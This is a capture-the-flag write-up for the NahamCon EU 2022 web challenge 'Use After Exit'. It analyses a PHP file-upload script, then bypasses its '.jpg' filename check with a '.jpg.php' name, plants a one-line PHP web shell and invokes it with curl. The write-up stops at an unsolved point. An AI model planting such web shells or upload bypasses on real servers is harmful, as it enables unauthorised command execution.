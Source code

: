 # Use After Exit

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★★★★★★★

- Challenge difficulty: Medium

## Background

Author: @carlopolop#3938  

**It's as easy as it looks, isn't it?**  
  
**Press the `Start` button on the top-right to begin this challenge.**  

**Connect with:**  

- [http://challenge.nahamcon.com:30714](http://challenge.nahamcon.com:30714)

![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216233446.png)

## Find The Flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216233505.png)

**Hmm... Let's break down that PHP code:**
```php
<?php
error_reporting(0);
if (isset($_POST['submit'])) {
    $file_name = urldecode($_FILES['file']['name']);
    $tmp_path = $_FILES['file']['tmp_name'];
    if(strpos($file_name, ".jpg") == false){
        echo "Invalid file name";
        exit(1);
    }
    $content = file_get_contents($tmp_path);
    $all_content = '<?php exit(0);'. $content . '?>';
    $handle = fopen($file_name, "w");
    fwrite($handle, $all_content);
    fclose($handle);
    echo "Done.";
}
else{
    show_source(__FILE__);
}
?> 
```

- `error_reporting(0);`, means turn off all error reporting
- If POST request parameter `submit` is set, do:
	- `file_name` =  URL decode the file name
	- `tmp_path` = The full path of temporary file of the uploaded file
	- **If the `file_name` does NOT contain `.jpg`, then echos out `Invalid file name` and exit with an error code**
	- `content` = The content of the uploaded file
	- **`all_content` = Add `<?php exit(0);` + `content` + `?>`**
	- `handle` = Open `file_name` in `write` mode
	- **Then write `all_content` in the `handle`, close the file handler, and echos out `Done.`**
- If POST parameter `submit` is NOT set,
	- Show the source code of the current PHP file

**Armed with above information, we can try to upload a file `submit` via a python script:**
```py
#!/usr/bin/python3

import requests

url = 'http://challenge.nahamcon.com:30714/'

data = {
	'submit': 'submit'
}

file = {
	'file': open('./FILE_HERE', 'rb')
}

print(requests.post(url, data=data, files=file).text)
```

**Let's try to upload a normal image jpg file:**
```py
file = {
	'file': open('./test.jpg', 'rb')
}
```

```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# python3 exploit.py
Done.
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221217002243.png)

**However, we can't view that image, as the PHP code adds the `exit(0);` in the uploaded file, thus the image is broken:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# wget http://challenge.nahamcon.com:30714/test.jpg

┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# head -n 1 test.jpg.1
<?php exit(0);����JFIF��C
```

**We can try to upload a PHP web shell with `.jpg.php` extension:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# echo '<?php system($_GET["cmd"]); ?>' > webshell.jpg.php
```

This can bypass the `.jpg` whitelist, as it only checks the file name **contains** `.jpg` or not.

```py
file = {
	'file': open('./webshell.jpg.php', 'rb')
}
```

```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# python3 exploit.py
Done.
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221217005320.png)

Ah! The PHP code is adding `<?php exit(0);` and `?>` to our file.

**Let's update our web shell again:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# echo 'system($_GET["cmd"]);' > webshell.jpg.php
```

```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# python3 exploit.py                                       
Done.
```

```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# curl http://challenge.nahamcon.com:31792/webshell.jpg.php --get --data-urlencode "cmd=id"
                                                                                        
```

**However, we didn't have any output, as the `exit(0);` is getting executed first, which causes the web shell do nothing!**

> Note: `exit()` is a function that stops execution for the entire script.

How do we bypass that...

Race condition?

Multiple PHP opening & closing tags, like this?

```php
<?php exit(0);
?><?php echo 'test';
?>
```

Override the `index.php` file via `fopen()` write mode?

Maybe I need to do path traversal?

Or maybe SSRF(Server-Side Request Forgery) via file name, and then read local files or access local services?

Also, this PHP code is weird to me, why it's doing URL decode?

```php
$file_name = urldecode($_FILES['file']['name']);
```

After digging deeper in those rabbit holes, still no dice...